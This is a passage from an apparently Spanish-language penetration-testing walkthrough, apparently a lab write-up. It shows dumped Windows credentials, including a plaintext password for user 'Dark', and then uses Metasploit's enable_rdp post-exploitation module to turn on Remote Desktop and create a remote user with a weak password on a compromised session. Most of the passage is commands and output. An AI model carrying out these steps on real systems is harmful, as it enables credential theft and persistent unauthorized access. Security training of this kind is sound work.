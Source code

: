 ```bash
Dark      Dark-PC    Password01!

tspkg credentials
=================

Username  Domain   Password
--------  ------   --------
Dark      Dark-PC  Password01!

kerberos credentials
====================

Username  Domain     Password
--------  ------     --------
(null)    (null)     (null)
Dark      Dark-PC    Password01!
dark-pc$  WORKGROUP  (null)
```

## Post explotación 

### Habilitar el escritorio remoto

Llegados a ser administradores del sistema podemos realizar multitud de acciones haciendo uso de meterpreter.

Entre muchas de estas opciones podemos encontrar habilitar el escritorio remoto.

Para ello debemos ejecutar un modulo disponible en metasploit:

```bash
msf6 > use post/windows/manage/enable_rdp
```
Antes de proceder es necesario que tengamos un usuario con remote desktop habilitado en el sistema o, ya que tenemos privilegios dentro del sistema podemos hacer uso de ese modulo de metasploit para crear un usuario remoto y además con privilegios de administrador.

Al activar el modulo debemos configurarlo.

```bash
msf6 post(windows/manage/enable_rdp) > options

Module options (post/windows/manage/enable_rdp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   ENABLE    true             no        Enable the RDP Service and Firewall Exception.
   FORWARD   false            no        Forward remote port 3389 to local Port.
   LPORT                      yes       The local port to forward to.
   PASSWORD                   no        Password for the user created.
   SESSION   4                yes       The session to run this module on
   USERNAME                   no        The username of the user to create.


View the full module info with the info, or info -d command.

msf6 post(windows/manage/enable_rdp) > set SESSION 5
SESSION => 5
msf6 post(windows/manage/enable_rdp) > set USERNAME remote
USERNAME => remote
msf6 post(windows/manage/enable_rdp) > set PASSWORD remote
PASSWORD => remote
msf6 post(windows/manage/enable_rdp) > set LPORT 3389
LPORT => 3389
msf6 post(windows/manage/enable_rdp) > run
```